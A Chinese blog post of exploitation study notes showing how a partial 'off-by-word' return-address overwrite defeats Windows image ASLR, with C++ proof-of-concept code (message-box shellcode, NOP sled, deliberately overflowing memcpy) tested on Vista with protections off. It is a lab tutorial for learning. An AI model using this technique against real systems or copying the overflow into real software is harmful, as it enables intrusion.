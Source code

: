 ```yaml
---
title: 漏洞利用学习笔记-018-利用部分覆盖定位
description: 利用部分覆盖定位shellcode
date: 2020-11-26 17:54:00+0800
categories:
    - 漏洞利用
tags:
    - Windows
    - 内存地址布局随机化
    - off-by-word
---
```


本文来源：[Moeomu的博客](/zh-cn/posts/漏洞利用学习笔记-018-利用部分覆盖定位/)

## 原理

- 映像随机化指示对映像加载基址的全两个字节随机化处理，这样做的后果是跳板始终可用，因此可以利用这一点去绕过ASLR
- 如果攻击memcpy的话，可以将返回值控制在`0xXXXX0000`~`0xXXXXFFFF`之间，而攻击str类函数攻击，可以将控制地址为`0xXXXX0100`~`0xXXXX00FF`之间的一个

## 过程

- 首先在编译完的程序内找到一条jmp eax的汇编码，随后将它的地址的低word作为`off by word`的地址，填入shellcode
- 计算好缓冲区大小，溢出后即可正常

## 代码

```cpp
#include <memory.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" // payload
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x2A\x23" // off by word
;

char* test()
{
	char tt[256];
	memcpy(tt, shellcode, 262);
	return tt;
}

int main()
{
	char temp[200];
	test();
	return 0;
}
```

## 开始实验

> 实验环境：系统：Windows Vista SP0，系统DEP状态：Optin默认，编译器：Visual Studio 2008，优化：禁用优化，GS选项：关闭，DEP选项：/NXCOMPAT:NO，build版本：release

- 编译程序，运行，直接弹出窗口并成功，重启也一样，如图

![成功](success.png)

